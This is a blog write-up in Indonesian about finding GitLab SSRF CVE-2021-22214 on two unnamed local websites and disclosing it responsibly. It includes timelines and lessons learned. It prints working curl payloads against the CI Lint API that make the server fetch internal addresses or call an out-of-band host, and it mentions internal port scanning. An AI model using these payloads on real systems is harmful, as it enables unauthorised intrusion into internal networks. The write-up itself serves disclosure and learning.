 ```yaml
---
layout: post
title: "[Write-Up] CVE-2021-22214 Gitlab SSRF di Website Lokal"
tags: [write-up, cve-2021-22214, gitlab, ssrf]
---
```


Dalam melanjutkan pencarian dan pembelajaran, di suatu hari, saya menemukan celah pada beberapa _website_ lokal. Berikut adalah write up serta tanggapan dari tim IT yang bersangkutan.

# Reconnaissance

Selalu, hal pertama yang dilakukan adalah _reconnaissance_ pada beberapa website lokal, saya melakukannya menggunakan tools [rEngine](https://github.com/yogeshojha/rengine). Tools yang sangat saya rekomendasikan dalam melakukan _bug bounty_. Beberapa waktu kemudian, rEngine menemukan sebuah celah dengan tingkat kerentanan tinggi, yaitu [GitLab SSRF (CVE-2021-22214)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22214). SSRF, menarik.

# Unauthenticated Gitlab CI Lint API SSRF CVE-2021-22214

Celah ini pertama kali ditemukan oleh user hackerone vin01. Dengan memanfaatkan celah pada CI Lint API milik Gitlab, _attacker_ dapat melakukan _Server-side Request Forgery (SSRF)_. 

## CI Lint API

[CI Lint](https://docs.gitlab.com/ee/api/lint.html) merupakan API Gitlab untuk mengecek atau memvalidasi konfigurasi CI/CD YAML. 

Request:
```bash
curl --header "Content-Type: application/json" --header "PRIVATE-TOKEN: <your_access_token>" "https://gitlab.example.com/api/v4/ci/lint" --data '{"content": "{ \"image\": \"ruby:2.6\", \"services\": [\"postgres\"], \"before_script\": [\"bundle install\", \"bundle exec rake db:create\"], \"variables\": {\"DB_NAME\": \"postgres\"}, \"types\": [\"test\", \"deploy\", \"notify\"], \"rspec\": { \"script\": \"rake spec\", \"tags\": [\"ruby\", \"postgres\"], \"only\": [\"branches\"]}}"}'
```
Response:
```json
{
  "status": "valid",
  "errors": [],
  "warnings": []
}
```

## Remote YAML includes

file konfigurasi CI untuk Gitlab adalah berformat YAML dan dapat menggunakan tag `include` untuk menyertakan (men-include-kan) template YAML dari remote URL

```bash
include:
  - 'https://gitlab.com/awesome-project/raw/main/.before-script-template.yml'
```

## Server-side Request Forgery (SSRF)

[Server-side request forgery (SSRF)](https://portswigger.net/web-security/ssrf) merupakan celah pada server yang mengijinkan _attacker_ melakukan HTTP _request_ ke website atau domain lain semaunya. Mudahnya, seorang _attacker_ dapat membuat sebuah server mengakses website atau domain tertentu. Umumnya, server tidak dapat atau tidak boleh melakukan _request_ HTTP tanpa otorisasi. 

Celah pada gitlab adalah kita dapat melakukan POST pada endpoint `/api/v4/ci/lint` dengan menyertakan tag `include` tadi.

Request:
```bash
curl -s --show-error -H 'Content-Type: application/json' https://gitlab.example.com/api/v4/ci/lint --data '{ "include_merged_yaml": true, "content": "include:\n  remote: http://127.0.0.1:9090/api/v1/targets?test.yml" }'
```

Response:
```json
{"status":"invalid","errors":["jobs status config should implement a script: or a trigger: keyword","jobs data config should implement a script: or a trigger: keyword","jobs config should contain at least one visible job"],"warnings":[],"merged_yaml":"---\nstatus: success\ndata:\n  activeTargets:\n  - discoveredLabels:\n      __address__: ...
```
Catatan: `test.yml` merupakan part penting dalam payload ini karena API hanya menerima ekstensi `.yml` untuk validasi remote YAML.

Celah ini akan menjadi berbahaya jika [_internal network request_](https://docs.gitlab.com/ee/security/webhooks.html) diaktifkan (secara default di non-aktifkan). Jika diaktifkan, maka kita dapat memanfaatkan celah ini untuk melakukan local port scanning.

# Temuan

Seperti yang sudah saya sebutkan diawal bahwa saya melakukan pemindaian terhadap beberapa website lokal, dan saya menemukan setidaknya 2 website yang memiliki domain gitlab. Kedua website tidak ingin saya menyebutkan apapun tentang mereka, maka saya akan menggunakan alias.

## Case 1: Temuan pada redacted-satu.com

Saya melakukan curl berikut

```bash
curl -s --show-error -H 'Content-Type: application/json' --data '{ "include_merged_yaml": true, "content": "include:\n  remote: https://IP-OOB/api/v1/targets?test.yml"}' https://redacted-satu.com/api/v4/ci/lint -k
```
IP-OOB merupakan IP out-of-band, kali ini saya menggunakan [interactsh](https://github.com/projectdiscovery/interactsh) karena mudah dan tidak perlu berbayar seperti burpcollabolator.

Dan, hit. Terlihat sebuah DNSLog pada interactsh.

![hit-1](/assets/img/posts/gitlab-ssrf-cve-2021-22214/interactsh-hit.png)

Segera saya laporkan ke tim terkait

### Timeline

- 16 September 2021 - Laporan dikirim
- 17 September 2021 - Laporan diterima dan sedang divalidasi
- 23 September 2021 - Temuan valid, celah terkait dengan aplikasi gitlab. Mereka mengapresiasi dan akan mengirimkan merchandise (yeay, Alhamdulillah). Saya menanyakan severity temuan ini berdasarkan assesment tim IT mereka.
- 24 September 2021 - Mereka mengklasifikasikan temuan ini sebagai medium karena tidak merusak atau terkait dengan produksi. Saya terima saja, toh memang saya tidak mengeksploit lebih jauh. Case closed. 

Beberapa hari kemudian saya merchandisenya sudah sampai di rumah.

## Case 2: Temuan pada redacted-dua.com

Sama seperti temuan pada redacted-satu.com, saya menemukannya dalam waktu yang berdekatan, jadi saya laporkan setelah proof-of-concept yang lengkap sampai dengan DNSLog hit.

### Timeline

- 21 September 2021 - Laporan dikirim
- 22 September 2021 - Laporan diterima, dimintakan _proof of concept_ (POC) berupa dokumen dan video. Saya kirim saat itu juga.
- 23 September 2021 - Mereka meminta saya untuk menunjukan dampak yang lebih serius, karena berdasarkan investigasi internal mereka kategorikan temuan ini sebagai External SRRF (informative - out of scope). Well said. External SSRF merupakan SSRF dengan dampak paling minimal (low). Sayapun mencoba berbagai cara untuk mengeksploitasi temuan ini, seperti melakukan request menuju `localhost (192.0.0.1)` namun semua payload yang saya gunakan gagal. 
- 27 September 2021 - Setelah beberapa hari mencoba meng eksploitasi temuan saya ini dan gagal, saya sampai pada kesimpulan dan berargumen bahwa _internal network request_ dalam keadaan non-aktif sehingga saya tidak dapat memanfaatkan temuan ini untuk melakukan request menuju localhost, namun jika suatu saat diaktifkan, maka celah ini akan meningkat severity-nya, sehingga menurut saya celah ini tetap perlu diperbaiki. 
- 03 Oktober 2021 - Setelah diskusi internal mereka, mereka tetap pada pendirian bahwa severity tidak berubah, saran perbaikan diterima. Fair enough. Saya juga tidak bisa membuktikan kerentanan yang lebih serius. Maka saya sepakat untuk menutup issue ini. Case closed.
- 08 Oktober 2021 - Mereka menanyakan KTP untuk memberikan sertifikat apresiasi karena sudah bertindak secara etis dan profesional dalam melaporkan temuan ini. Alhamdulillah.
- 13 Oktober 2021 - Sertifikat disampaikan via email

# Lesson learned

Ini adalah kali pertama saya menemukan bug pada sebuah website. Banyak pelajaran dan hikmah selama prosesnya. 

Saya jadi belajar bahwa setelah menemukan bug, jangan tergesa-gesa melaporkan, pelajari lebih jauh, eksplorasi lagi, mungkin ada celah lain yang dapat dimanfaatkan (chain of bugs) dan dapat meningkatkan dampak celah yang kita temukan. Gunakan bahasa yang sopan, well mannered, dan profesional dalam menulis laporan. Selalu sertakan proof of concept, no POC no bounty. Utamakan profesionalitas, jangan terlalu menekan pemilik website atau tim security website terkait, biasa saja. Utamakan ilmu dibanding dengan bounty. Setelah ilmu mencukupi, bounty akan mengikuti.

## Terima kasih

Semua pengalaman saya di atas tidak akan terjadi tanpa-Nya. Segala puja dan puji hanya untuk-Nya. Tidak lupa juga untuk teman sekaligus mentor saya selama ini, yang selama diskusi dengan tim security terkait ia selalu membantu memberikan _insight_. Terakhir terima kasih kepada tim IT redacted-satu.com dan redacted-dua.com yang tidak ingin disebutkan yang dengan sabar berdiskusi dengan saya.

